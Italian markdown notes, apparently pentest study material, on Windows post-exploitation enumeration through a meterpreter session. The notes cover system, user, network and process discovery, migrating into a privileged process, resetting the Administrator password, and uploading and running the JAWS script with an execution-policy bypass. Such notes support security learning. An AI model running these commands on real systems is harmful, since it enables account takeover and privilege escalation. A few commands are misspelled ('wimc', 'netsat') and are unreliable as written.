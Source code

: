 
# Windows local enumeration
Quando otteniamo l'accesso ad un sistema windows, la prima fase é quella che consiste nel enumerare il sistema ottenendo l'id del utente attuale e informazioni sul sistema. 
```bash
meterpreter > getuid
meterpreter > sysinfo
meterpreter > cd C:/Windows/System32
meterpreter > cat eula.txt                               # file che da altre informazioni sul sistema operativo 
meterpreter > shell
#comandi windows
hostname
systeminfo
wimc qfe get Caption,Description,HotFixID,InstalledOn     # per avere altre informazioni sugli hotfixs (patch)

```

### Enumerare Utenti e Gruppi
Serve per vedere l'utente attuale e che permessi ha e di che gruppo fa parte. <br>
possiamo anche ottenere gli utenti che fanno parte del gruppo amministratori per poter tentare di exploitarli. <br> 
```bash
meterpreter > getprivs                                    # per visualizzare gli attuali permessi
meterpreter >  background
use post/windows/gather/enum_logged_on_users              # modulo per enumerare gli utenti su un target windows
set session 1
run
sessions 1
meterpreter > shell
# enumerazione utenti manuale
whoami
whoami /priv                                              # enumerare i permessi attuali
query user                                                 # per visualizzare gli utenti collegati e quando
net users                                                  # enumerare tutti gli utenti nel sistema
net user administrator                                     # ottenere informazioni sul account amministratore (possiamo mettere qualisasi nome utente)
net user Administrator NuovaPassword1234                   # per cambiare la password dell'account administrator se si hanno alti privilegi
net localgroup                                             # enumerare tutti i gruppi presenti sul sistema
net localgroup administrators                              # visualizzare i componenti del gruppo administrators (possiamo mettere qualsiasi nome gruppo)
```

### Enumerare le informazioni di rete
Abbiamo anche bisogno di poter enumerare gli attuali indirizzi per poter identificare le impostazioni di rete interne e i servizi in esecuzione sulle porte TCP/UDP.
```bash
meterpreter > shell
ipconfig
ipconfig /all
route print                  # visualizzare la routing table
arp -a                       # aprire la arp table e visualizzare gli altri host collegati alla stessa rete del target
netsat -ano                  # per visualizzare la lista dei servizi attualmente in esecuzione o in ascolto
netsh firewall show state
#oppure
netsh advfirewall show allprofile
```

### Enumerare i processi
Enumerare i processi é importante per poter migrare la sessione meterpreter verso un processo con privileggi superiori e quindi effettuare un privilege escalation, e per poter identificare delle task con debbolezze nella configurazione per poterle exploitare. <br>
```bash
meterpreter > ps                          # mostra i processi attualmente in esecuzione e dovviamo fare caso al PID e al USER che sia NT AUTHORITY
meterpreter > pgrep <PROCESSNAME>         # per cercare il pid di un determianto processo. Preferiamo sempre cercare il processo explorer.exe
meterpreter > migrate <PID>
meterpreter > shell
net start                                  # mostrare i servizi (non sono processi, i servizi lavorano in background)
wmic service list brief                   # mostra i servizi in esecuzione
tasklist /svc                            # mostra i processi in esecuzione sotto un determinato processo
schtasks /query /fo LIST /v               # mostra le sheduled tasks 
```

### Automatizzare la local enumeration
Esistono alcuni scripts che permettono di enumerare tutte le infgormazioni ottenute precedentemente in modo automatico <br>
Uno script interessante é JAWS (Just Another Windows (enumeration) Script) che é possibile scaricare tramite questo <a href="https://github.com/411Hall/JAWS">link</a> <br>
JAWS é uno script che permette di identificare potenziali vettori per un privilege escalation ed é scritto in PowerShell 2.0 quindi dovrebbe poter girare su tutte le versioni superiori di windows 7. <br>
per poterlo usare basta copiare il raw del file .ps1 e incollarlo in un file .ps1 sulla nostra macchina kali per poi inniettarlo sul target tramite una sessione meterpreter
```bash
meterpreter > cd C:/Temp
meterpreter > upload path/di/JAWS.ps1
meterpreter > shell
dir                           # per confermare che il file é stato uploadato con successo
powershell.exe -ExecutionPolicy Bypass -File .\JAWS.ps1 -OutputFilename JAWS-ENUM.txt
# questo comando indica a windows che vogliamo eseguire tramite powershell lo script JAWS e salvare i risultati nel file JAWS-ENUM.txt
# torniamo ora su meterpreter, premendo CTRL+C, per poter scaricare il file creato da JAWS
meterpreter > download JAWS-ENUM.txt
```
